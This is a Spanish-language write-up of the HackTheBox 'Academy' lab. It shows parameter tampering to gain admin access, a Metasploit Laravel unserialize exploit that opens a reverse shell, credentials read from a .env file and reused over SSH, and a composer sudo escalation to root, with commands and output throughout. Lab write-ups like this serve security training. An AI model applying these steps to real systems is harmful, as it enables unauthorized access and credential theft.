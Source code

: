 ```yaml
---
layout      : post
title       : "Academy - HackTheBox"
author      : elc4br4
image       : /assets/images/HTB/Academy-HackTheBox/Academy.webp
optimized_image : /assets/images/HTB/Academy-HackTheBox/Academy.webp
category    : [ htb ]
tags        : [ Linux ]
description : ⚡En esta ocasión vamos a resolver una máquina Linux de nivel Easy en la que tocaremos un poco de Laravel, logs y escalaremos privilegios a través de un binario⚡
---
```


En esta ocasión vamos a resolver una máquina Linux de nivel Easy en la que tocaremos un poco de Laravel, logs y escalaremos privilegios a través de un binario⚡

![](/assets/images/HTB/Academy-HackTheBox/rating-academy.png)

[![HTBadge](https://www.hackthebox.eu/badge/image/533771)](https://www.hackthebox.com/home/users/profile/533771)

# Reconocimiento de Puertos

```bash
PORT   STATE SERVICE    VERSION
22/tcp open  tcpwrapped
| ssh-hostkey: 
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
80/tcp open  tcpwrapped
|_http-title: Did not follow redirect to http://academy.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
3060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq
``` 

El escaneo nmap revela que tenemos un Servidor OpenSSH corriendo en el puerto 22.
También revela que tenemos el puerto 80 abierto en el cual corre un servidor Apache con una web bajo el nombre de "Hack The Box Academy".
Además tenemos el puerto 33060 en el cual corre un servidor MySQL.


# Enumeración Web

Al acceder a la web a través de la ip nos redirige a http://academy.htb, que lo añadiremos al archivo hosts


`` sudo echo "10.10.10.215 academy.htb" >> /etc/hosts ``


Una vez lo añadimos ya podemos acceder a la web.


![](/assets/images/HTB/Academy-HackTheBox/web.png)


Encuentro la opción Register en la que me creo una cuenta, una vez creada me encuentro con el panel en el que se ubican los modulos de HTB Academy, pero nada que pueda aprovechar.

![](/assets/images/HTB/Academy-HackTheBox/web2.png)

Por lo tanto vuelvo hacia atrás y decido capturar la petición de registro con BurpSuite.

![](/assets/images/HTB/Academy-HackTheBox/burp1.png)

```bash
POST /register.php HTTP/1.1
Host: academy.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://academy.htb/register.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
Origin: http://academy.htb
DNT: 1
Connection: close
Cookie: PHPSESSID=2qamfqs6cs7r1bsu9jktbf3hsu
Upgrade-Insecure-Requests: 1


uid=elc4br4&password=elc4br4&confirm=elc4br4&roleid=0
```

Si nos fijamos tenemos el parámetro `roleid`, que está fijado en 0, pero si lo cambiamos podemos ver si ocurre algo


```bash
uid=elc4br4&password=elc4br4&confirm=elc4br4&roleid=1
```

Si cambiamos el parámetro, enviamos la respuesta y abrimos la url [http://academy.htb/admin.php](http://academy.htb/admin.php) y nos logueamos con la cuenta que hemos creado y accedemos a la web como admin.

> Encontramos cosas interesantes... 🤗

![](/assets/images/HTB/Academy-HackTheBox/web3.png)

```bash
Dos posibles usuarios
---------------------
Complete initial set of modules (cry0l1t3 / mrb3n)

Otro vhost
---------
Fix issue with dev-staging-01.academy.htb
```

> Añadimos el vhost a al archivo hosts

`` sudo echo "10.10.10.215 dev-staging-01.academy.htb" >> /etc/hosts ``


Accedemos y encontramos un montón de errores.

![](/assets/images/HTB/Academy-HackTheBox/web4.png)


![](/assets/images/HTB/Academy-HackTheBox/web5.png)


Si nos fijamos bien veremos que aparece en mcuhas ocasiones la palabra `laravel`

Buscando exploits para PHP Laravel encuentro esto

``PHP Laravel Framework 5.5.40 / 5.6.x < 5.6.30 - token Unserialize Remote Command Execution (Metasploit)``

Abro metasploit y procedo a configurar y lanzar el exploit

![](/assets/images/HTB/Academy-HackTheBox/metasploit.png)


Y lanzamos el exploit

```bash
msf6 exploit(unix/http/laravel_token_unserialize_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.5:4441 
[*] Command shell session 1 opened (10.10.14.5:4441 -> 10.10.10.215:49452) at 2022-09-11 18:35:12 +0200
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
whoami
www-data
```

Tras enumerar durante un buen rato, encuentro en la ruta /var/www/html/academy/.env credenciales que podría servirnos para logarnos a través de ssh.

```bash
www-data@academy:/var/www/html/academy$ cat .env
APP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
APP_DEBUG=false
APP_URL=http://localhost

LOG_CHANNEL=stack

DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!
```

Probamos a loguearnos con el usuario cry0l1t3 que encontramos anteriormente en el servidor web.

`ssh cry0l1t3@10.10.10.215`

![](/assets/images/HTB/Academy-HackTheBox/user.png)


Si nos fijamos bien el usuario cry0l1t3 está dentro del grupo adm.


Realizando una breve búsqueda en internet encuentro la siguiente información

![](/assets/images/HTB/Academy-HackTheBox/escaladavertical.png)

Leemos los logs en busca de información y encuentro data en hexadcimal que voy decodeando poco a poco, hasta que encuentro una posible contraseña del usuario mrb3n

![](/assets/images/HTB/Academy-HackTheBox/hexadecimal.png)


```bash
$ su mrb3n 
Password: 
$ id
uid=1001(mrb3n) gid=1001(mrb3n) groups=1001(mrb3n)
$ whoami
mrb3n
```

A continuación ya debemos intentar escalar al usuario root, comenzando por la búsqueda de posibles vectores de escalada, entre ellos pruebo con `sudo -l`

![](/assets/images/HTB/Academy-HackTheBox/escaladaroot.png)


Como vemos tenemos el binario composer que podemos ejecutar como root.

Como de costumbre me dirijo a la siguiente fuente:

[https://gtfobins.github.io/gtfobins/composer/](https://gtfobins.github.io/gtfobins/composer/)

![](/assets/images/HTB/Academy-HackTheBox/gtfobins.png)

EJECUTAMOS LO SIGUIENTE 

```bash
$ TF=$(mktemp -d)
$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
$ sudo composer --working-dir=$TF run-script x
PHP Warning:  PHP Startup: Unable to load dynamic library 'mysqli.so' (tried: /usr/lib/php/20190902/mysqli.so (/usr/lib/php/20190902/mysqli.so: undefined symbol: mysqlnd_global_stats), /usr/lib/php/20190902/mysqli.so.so (/usr/lib/php/20190902/mysqli.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
PHP Warning:  PHP Startup: Unable to load dynamic library 'pdo_mysql.so' (tried: /usr/lib/php/20190902/pdo_mysql.so (/usr/lib/php/20190902/pdo_mysql.so: undefined symbol: mysqlnd_allocator), /usr/lib/php/20190902/pdo_mysql.so.so (/usr/lib/php/20190902/pdo_mysql.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
Do not run Composer as root/super user! See https://getcomposer.org/root for details
> /bin/sh -i 0<&3 1>&3 2>&3
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
```



